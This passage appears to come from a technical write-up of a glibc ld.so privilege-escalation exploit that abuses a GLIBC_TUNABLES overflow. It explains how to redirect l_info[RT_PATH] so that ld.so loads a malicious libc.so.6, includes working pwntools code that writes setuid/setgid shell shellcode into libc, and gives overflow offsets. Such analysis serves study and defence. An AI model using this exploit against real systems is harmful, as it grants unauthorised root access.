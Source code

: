 At this point, we have one final problem: we need to overflow into `l_info[RT_PATH` but cannot modify `l_prev` and `l_next` (if possible, we hope the others are also NULL to avoid some other checks). Revisiting the `parse_tunables` function, we can see that it copies the data using the stack data; therefore, copying NULL bytes seems feasible.

Therefore, our attack chain is evident now: construct a malicious `libc.so.6` placed in the `"` directory, overflow `l_info[RT_PATH]` to point to the stack, fill the stack with a large number of `0xffffffffffcb`, and if hit, `ld.so` will trust our malicious `libc.so.6`, leading to obtaining root access.

## Exploit

Next step is to write the attack script. First, we build a malicious `libc.so.6` by rewriting `__libc_start_main` with `shellcode(setuid(0) + setgid(0) + sh())`.

```python
from pwn import *

context(arch='amd64', os='linux')

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

d = bytearray(open(libc.path, 'rb').read())
idx = d.find(libc.read(libc.symbols['__libc_start_main'], 0x10))

sc = asm(shellcraft.setuid(0) + shellcraft.setgid(0) + shellcraft.sh())

d[idx:idx+len(sc)] = sc

mkdir_p('"')
open('"/libc.so.6', 'wb').write(d)
```

We need to fill the read-write section of ld.so, allowing our further attack in a new segment. A size of around `0x1000` should suffice.

Now, we need to know the offset of `l_info[RT_PATH]`. Since `__minimal_malloc` will immediately allocate memory behind our second `GLIBC_TUNABLES`, any overflow will lead to overwriting positions like `l_prev`. To place it in a relatively safe position, we can consider adding a third `GLICB_TUNABLES` as a separator.

First, calculate the number of bytes we overflowed in the first time: `:<NAME>=`\*2 + `<VALUE>`, then continue copying and overflowing at the offset where `:<NAME>=` occurs after the environment variables, and beyond which we do not consider. In our case, the `:<NAME>=` is 21 bytes. After calculation, the first byte to copy is at `0x5f1` location, corresponding to `envp[2+0x14]`, and `l_info[RT_PATH]` is at `0x6d8` location, corresponding to `envp[2+0x14+(0x6d8-0x5f1)]=envp[0xfd]`. Testing this:

It can be seen that the test succeeded. Now, we can point it to the stack. Here, we fill 5MB of `-0x14`.

Parameters are now all set.

Successfully loaded the malicious libc.
